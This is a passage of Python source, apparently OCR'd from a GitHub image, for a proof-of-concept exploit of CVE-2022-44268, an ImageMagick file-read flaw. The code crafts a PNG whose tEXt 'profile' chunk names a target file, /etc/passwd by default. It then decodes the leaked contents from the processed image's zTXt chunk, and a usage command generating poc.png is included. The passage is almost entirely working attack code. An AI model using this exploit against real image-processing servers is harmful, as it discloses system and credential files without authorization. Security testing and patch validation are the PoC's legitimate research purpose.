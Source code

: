 ```python
        if k == b'zTXt':
            name, data = v.split(b'\x00', 1)
            res = parse_data(d.decompress(data[1:]))

    if res:
        sys.stdout.write(res)
        sys.stdout.flush()


def write(from_filename, to_filename, read_filename):
    if not to_filename:
        logging.error('you must specify a output filename')
        return

    with open(to_filename, 'wb') as f:
        f.write(png.signature)
        if from_filename:
            p = png.Reader(filename=from_filename)
            for k, v in p.chunks():
                if k != b'IEND':
                    png.write_chunk(f, k, v)
        else:
            png.write_chunk(f, b'IHDR', IHDR)
            png.write_chunk(f, b'IDAT', IDAT)

        png.write_chunk(f, b"tEXt", b"profile\x00" + read_filename.encode())
        png.write_chunk(f, b'IEND', b'')


def main():
    parser = argparse.ArgumentParser(description='POC for CVE-2022-44268')
    parser.add_argument('action', type=str, choices=('generate', 'parse'))
    parser.add_argument('-i', '--input', type=str, help='input filename')
    parser.add_argument('-o', '--output', type=str, help='output filename')
    parser.add_argument('-r', '--read', type=str, help='target file to read', default='/etc/passwd')
    args = parser.parse_args()
    if args.action == 'generate':
        write(args.input, args.output, args.read)
    elif args.action == 'parse':
        read(args.input)
    else:
        logging.error("bad action")


if __name__ == '__main__':
    main()
```

```bash
python3 exploit.py generate -o poc.png -r /etc/passwd
```
